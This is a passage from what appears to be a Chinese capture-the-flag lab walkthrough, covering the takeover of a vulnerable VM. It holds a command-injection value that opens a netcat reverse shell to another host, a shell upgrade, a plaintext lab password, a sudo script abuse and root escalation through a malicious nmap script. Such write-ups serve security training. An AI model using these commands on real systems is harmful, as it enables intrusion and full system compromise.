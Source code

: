 ![26](https://havocykp.github.io/assets/images/img_blog8/26.png)

② 修改抓包的源码

127.0.0.1|nc 192.168.2.110 9999 -e /bin/bash

反弹shell成功，成功拿下shell

![27](https://havocykp.github.io/assets/images/img_blog8/27.png)

③ 通过python命令进入交互式模式

命令：python -c 'import pty;pty.spawn("/bin/bash")'

![28](https://havocykp.github.io/assets/images/img_blog8/28.png)

在 /home/mark/stuff/things-to-do.txt 下，找到 graham的密码

![29](https://havocykp.github.io/assets/images/img_blog8/29.png)

获取账号密码

graham：GSo7isUM1D4

使用该账号密码登陆 SSH

![30](https://havocykp.github.io/assets/images/img_blog8/30.png)



提权

在jens的用户目录下发现shell脚本，并且脚本可执行（backups.sh）

![31](https://havocykp.github.io/assets/images/img_blog8/31.png)

此脚本在当前用户下有读写权限，修改脚本内容，在末尾增加 /bin/bash，当执行时可以获得 jens的shell

echo '/bin/bash' >> backups.sh

sudo -u jens ./backups.sh

成功切换到 jens 用户

![32](https://havocykp.github.io/assets/images/img_blog8/32.png)

查看jens可以使用的root权限命令，发现nmap有执行脚本的功能，通过编写特殊脚本，可以实现利用nmap提权

![33](https://havocykp.github.io/assets/images/img_blog8/33.png)

编写特殊脚本，获取flag

echo 'os.execute("/bin/sh")' >get_root.nse

sudo nmap --script=/home/jens/get_root.nse

![34](https://havocykp.github.io/assets/images/img_blog8/34.png)

直接输入命令即可即可查看

进入 /root 目录，得到 theflag.txt

![35](https://havocykp.github.io/assets/images/img_blog8/35.png)

